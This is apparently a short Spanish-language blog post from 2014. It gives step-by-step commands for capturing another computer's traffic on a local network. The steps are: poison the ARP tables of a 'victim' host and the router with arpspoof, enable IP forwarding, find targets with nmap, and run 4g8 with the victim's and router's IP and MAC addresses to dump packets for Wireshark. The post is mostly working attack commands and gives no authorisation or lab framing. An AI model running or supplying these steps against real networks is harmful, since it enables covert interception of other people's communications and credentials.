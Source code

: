 ```yaml
---
layout: post
title: "4g8"
date: 2014-01-27 20:05
comments: true
categories: 
---
```

Capturar paquetes de equipos de una red. Previamente preparar el equipo con los pasos previos para el envenenamiento arp lanzando en dos terminales y sin cerrarlas hasta terminar la captura:

>\# arpspoof -i eth0 -t 192.168.1.12 192.168.1.1

>\# arpspoof -i eth0 -t 192.168.1.1 192.168.1.12

El “12” el sniffado, el “1” el router y el -i … la red. El paquete que contiene arpspoof es dsniff. Activar forwarding para que los paquetes vayan a su verdadero dueño:

>\# echo 1 > /proc/sys/net/ipv4/ip_forward

Para conocer los parámetros [ips y MACs] que luego tendremos que entrar en 4g8 lanzar:

>\# nmap 192.168.1.0/24

Para conocer los equipos de la red. Una vez escogida la victima, lanzar 4g8:

>\# 4g8 -i eth0 -g 192.168.1.1 -G 64:69:0C:87:A8:DC -s 192.168.1.12 -S 00:19:01:54:F5:1F -w dump.pcap

	-g (la ip del router)

	-G (la MAC del router)

	-s (la ip de la victima)

	-S (la MAC de la victima)

	-w (el archivo donde guardar las capturas)

Para el análisis del archivo dump.pcap  puedes usar wireshark entre otros.

